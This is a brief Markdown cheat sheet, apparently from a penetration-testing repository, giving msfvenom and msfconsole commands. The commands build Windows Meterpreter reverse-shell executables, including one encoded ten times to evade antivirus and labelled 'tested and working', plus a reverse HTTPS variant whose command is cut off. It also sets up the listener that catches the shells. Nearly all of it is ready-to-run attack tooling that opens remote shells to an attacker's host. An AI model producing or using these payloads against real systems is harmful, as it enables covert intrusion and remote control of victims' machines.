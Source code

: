 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Windows MeterpreterReverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### Encoded multiple times - tested and working:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=212.219.14.55 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o shell.exe
```

##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b 
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
